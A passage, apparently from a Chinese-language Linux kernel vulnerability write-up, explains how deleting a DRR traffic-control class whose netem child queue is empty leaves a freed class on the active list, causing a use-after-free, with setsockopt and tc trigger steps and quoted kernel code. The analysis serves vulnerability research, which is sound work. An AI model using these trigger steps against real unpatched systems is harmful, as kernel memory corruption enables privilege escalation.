 發送 packet 時前需指定 skb 的 mark=87 與 prio=100，可以透過 `setsockopt()` 設置：

```c
// Set socket mark
setsockopt(sock, SOL_SOCKET, SO_MARK, &mark, sizeof(mark));

// Set socket priority
setsockopt(sock, SOL_SOCKET, SO_PRIORITY, &prio, sizeof(prio));
```

在發送 packet 後，執行下面的 command 刪除 class object：

```bash
#!/bin/sh
tc filter delete dev lo parent 2: prio 100 protocol ip handle 87 fw classid 2:1
tc class delete dev lo parent 2: classid 2:1
```

當 `drr_delete_class()` 刪除 class object 時，會因為 netem qdisc 的 qlen 為 0，使得 `qdisc_purge_queue()` 呼叫 `qdisc_tree_reduce_backlog()` 時不會通知 parent qdisc，也就是 drr 的 qlen_notify handler `drr_qlen_notify()` 不會被呼叫到。

```c
static int drr_delete_class(struct Qdisc *sch, unsigned long arg,
                struct netlink_ext_ack *extack)
{
    // [...]
    qdisc_purge_queue(cl->qdisc);
    // [...]
}

static inline void qdisc_purge_queue(struct Qdisc *sch)
{
    // [...]
    qdisc_tree_reduce_backlog(sch, qlen, backlog);
}

void qdisc_tree_reduce_backlog(struct Qdisc *sch, int n, int len)
{
    // [...]
    if (n == 0 && len == 0)
        return;
    
    // [...]
    
    // cops->qlen_notify();
    
    // [...]
}
```

而 `drr_qlen_notify()` 會把當前 class object 從 active list 中移除。如果沒有移除的話，parent qdisc 的 active list (`q->active`) **仍會指向被釋放的 class object**，後續存取時就會**觸發 UAF**。

```c
static void drr_qlen_notify(struct Qdisc *csh, unsigned long arg)
{
    struct drr_class *cl = (struct drr_class *)arg;
    list_del(&cl->alist);
}
```
